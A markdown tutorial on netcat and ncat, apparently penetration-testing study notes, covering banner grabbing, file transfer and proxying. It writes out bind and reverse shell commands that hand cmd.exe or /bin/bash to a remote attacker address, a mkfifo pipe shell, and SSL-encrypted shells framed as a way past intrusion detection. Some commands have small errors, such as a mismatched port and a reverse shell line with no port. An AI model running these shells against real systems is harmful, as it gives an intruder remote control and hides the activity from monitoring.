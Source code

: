 # Netcat - the hacker's swiss army knife

Is a tool that can read and write to TCP and UDP ports (can act as client or server).

Netcat is a tool used to:
* Check if port is open or close
* Read a banner from a port.
* To connect to a network service manually.

Netcat binary is present by default in Linux, Windows and MacOSX also if system administrators tend to remove it from the servers for obvious security reasons. 

## How to use netcat as client.
We have already scanned our target with nmap and we know that the following ports are open: 

```Nmap output
Nmap scan report for ************ (10.0.0.22)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
110/tcp  open  pop3
```
Let's try to connect to the port 110 

`netcat -nv 10.0.0.22 110`
```netcat output
(UNKNOWN)[10.0.0.22] 110 (pop3) open
+OK POP3 server lab ready 
```
In this case after the connection we got a welcome message from the server ( a "banner").

The parameters `-nv` used mean:
+ -n  I will give a numeric IP address and not an host address.  
+ -v  verbose mode. 

## How to use netcat as server (listener)

To listen with netcat on a TCP or UDP port we will set it up as server on our localhost and try to talk with it through another computer connected on the same network (or virtual machine).

`netcat -nlvp 444`
```output netcat server
listening on [any] 4444 ...
```
Explanation new parameters: 
+ -l listen mode (for inbound connections)
+ -p specify a port


We can connect to this port using the same command that we used before to use netcat as client from another machine.
I will use the address 10.0.0.22 as the server one.

`netcat -nv 10.0.0.22 4444`
```output ncat client
(UNKNOWN) [10.0.0.22] 4444 (?) open
I can write here and the server will be able to see ! 
Also, if I write in the server prompt the client will be able to see it ! 
Congratulation you created a chat ! 
```

## Transfer files with netcat 

Netcat can also be used to transfer file between a server and a client.

Set up the server that will receive:
`netcat -nlp 4444 > incoming.exe`

Set up the client that will send:
`netcat -n 10.0.0.22 4444 < file_to_transfer.exe`

Netcat will not give us any feedback, but the file will be in the specified folder. 
Check for file size matching before quitting the connection. 

## Remote administration with netcat
As we previously saw with netcat is possible to create a communication between a client and a server.
This textual exchange of messages can be used to do command redirection.
We can take an executable file and redirect the input, output, and error messages to a TCP/UDP port rather than the default console.
There are two tipes of connection that can be enstablished, and it's really important to understand when one rather than the other should be  used. 

### Bind shell 
A bind shell is enstablished when a server that has a public ip address opens a port to a client and binds a shell to that port.(fig.1)
So when the client connects to this public address on this port it will be welcomed with the server command prompt.

![bindshell](https://www.dropbox.com/s/ul38konoyhnx232/2017-12-01%2016.46.29.jpg?raw=1)

To create a bind shell the attacker should connect (as client) to the target (server).
The *target* will open a netcat session as server with a shell binded to it (es. from Windows):

`netcat -nlvp 4444 -e cmd.exe`

Parameters:
+ -e  execute

The *attacker* will then connect to the server and get command prompt access:
a.b.c.d is the public IP address of the server.
`# netcat -nv a.b.c.d 4444`
From now on, everything written on the attacker computer will be sent to cmd.exe on the target computer and the output redirected back to the attacker.



### Reverse shell

![reverseshell](https://www.dropbox.com/s/8uvared7qrkz9dv/2017-12-01%2017.02.28.jpg?raw=1)

To create a reverse shell the attacker is the server and the target will connect to it as client.
The *attacker* will create a server.
`netcat -nlvp 4444`

The *target* will connect to the server and bind a shell to the opne TCP port (es. from Linux):
a.b.c.d is the public IP address of the server 
`netcat -nv a.b.c.d -e /bin/bash`

### Conclusions.
Which type of connection should I use? 
If you are on a LAN, both method will work just fine. 
In a real scenario the computer to attack will be positioned inside a private network and the attacker will not be able to connect to it because some kind of firewall will block the incoming connection to that port ! 
Usually firewalls block incoming connection and not outgoing connections, this is why we should use a reverse shell.
A *reverse shell* allows to the target to connect to us (and we should have control on our router firewall) through our public IP. 

### Others infoz.
There are versions of netcat that don't have -e or -c options. 

A binding shell can be enstablished in this way:

* Server side: 
`rm -f /tmp/f; mkfifo /tmp/f`
`cat /tmp/f |/bin/bash -i 2>&1 |nc -l a.b.c.d PORT>/tmp/f `

* Client side:
`nc a.b.c.d PORT`


## ncat and encrypted link between a server and a client (SSL)
[ncat](https://nmap.org/ncat/)

Ncat was written for the nmap project as a much-improved reimplementation of netcat.
Ncat is able to enstablish end-to-end encrypted connections between a client and a server (SSL), redirect TCP and UDP ports to other sites, proxy connections via SOCKS4 or HTTP proxies. 

### Use ncat with SSL to encrypt your bind or reverse shell.

Encryption of the bind or reverse shell will help the penetration tester in avoiding intrusion detection systems (IDS), and will allow to not expose penetrated machines to unwanted IPs. 

To set up a bind shell with SSL encryption: 

* SERVER
  `ncat --exec cmd.exe --allow 10.0.0.4 -vnl 4444 --ssl`

   options explained:
     + --exec used to specify the executable file (in this case a windows command prompt).
     + --allow specify the IP of the client that is allowed to connect with the server.
     + --ssl  activate ssl encryption of the connections. 

+ CLIENT
   `ncat -v 10.0.0.22 4444 --ssl`


Now all the data exchanged between the server and the client is protected by SSL (Secure Sockets Layer). 


### ncat - connect to an HHTPS website

`ncat -v --ssl google.com 443`

### ncat - forward a local port
ncat -vl 7777 -c `ncat remote_host 8080`

### ncat - connect through a proxy
`ncat --proxy proxy_server:port --proxy-type {socks4|http} remote_host port [--proxy-auth username:password ] 
(Proxies that return status code 407 require authentication)

### ncat - create an HHTP proxy
`ncat -vl --proxy-type http 7777 [--allow 123.45.67.89 --proxy-auth user:pass]`

### ncat - Configure access controls for listening sockets
```
ncat -vl 7777 {--allow|--deny}  remotehost
ncat -vl 7777 {--allow|--deny}  10.0.0.10
ncat -vl 7777 {--allow|--deny}  10.0.0.10,10.0.0.20
ncat -vl 7777 {--allow|--deny}  10.0.0.10-20
ncat -vl 7777 {--allow|--deny}  10.0.0.0/24
ncat -vl 7777 {--allow-file|--deny-file} hosts.txt
```

## BONUS

* [Netcat Cheatsheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)
* [ncat user guide](https://nmap.org/ncat/guide/)
